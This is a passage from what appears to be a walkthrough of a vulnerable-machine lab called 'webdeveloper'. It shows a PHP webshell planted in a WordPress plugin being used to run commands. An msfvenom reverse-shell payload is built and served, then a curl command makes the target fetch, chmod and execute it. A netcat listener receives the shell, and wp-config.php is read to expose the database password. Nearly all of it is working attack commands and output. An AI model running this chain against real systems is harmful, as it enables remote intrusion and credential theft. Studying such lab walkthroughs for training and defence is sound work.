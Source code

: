Then, we check that our php webshell is running successfully the **id** command.

![](/assets/images/webdeveloper/screenshot-7.png)

We list the system information and we detect that is a 64 bit operating system.

```bash
root@kali:~$ curl -s "http://192.168.179.184/wp-content/plugins/akismet/akismet.php?cmd=$(urlencode -m 'uname -a')"
Linux webdeveloper 4.15.0-38-generic #41-Ubuntu SMP Wed Oct 10 10:59:38 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
```

We generate a linux 64 bit payload with msfvenom.

```bash
root@kali:~$ msfvenom -a x64 --platform linux -p linux/x64/shell_reverse_tcp lhost=192.168.179.1 lport=443 -f elf -o evil
```

We start a python web server on port 80.

```bash
root@kali:~$ python3 -m http.server 80
```

We set up a netcat listener on port 443, we run the following curl instruction that really do is download the paylod to the victim machine, give it execution permissions and execute it.

```bash
root@kali:~$ curl -s "http://192.168.179.184/wp-content/plugins/akismet/akismet.php?cmd=$(urlencode -m 'curl 192.168.179.1/evil -o /tmp/evil && chmod +x /tmp/evil && /tmp/evil')"
```
If everything wen well, we get a shell.

```bash
root@kali:~$ nc -vlnp 443
listening on [any] 443 ...
connect to [192.168.179.1] from (UNKNOWN) [192.168.179.184] 36790
script -qc /bin/bash /dev/null
www-data@webdeveloper:/var/www/html/wp-content/plugins/akismet$
```

Listing the wordpress config file was found the password of mysql connection.

```bash
www-data@webdeveloper:/var/www/html$ head -n 40 wp-config.php
...
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'wordpress');

/** MySQL database username */
define('DB_USER', 'webdeveloper');

/** MySQL database password */
define('DB_PASSWORD', 'MasterOfTheUniverse');

/** MySQL hostname */
define('DB_HOST', 'localhost');

/** Database Charset to use in creating database tables. */
define('DB_CHARSET', 'utf8mb4');

```
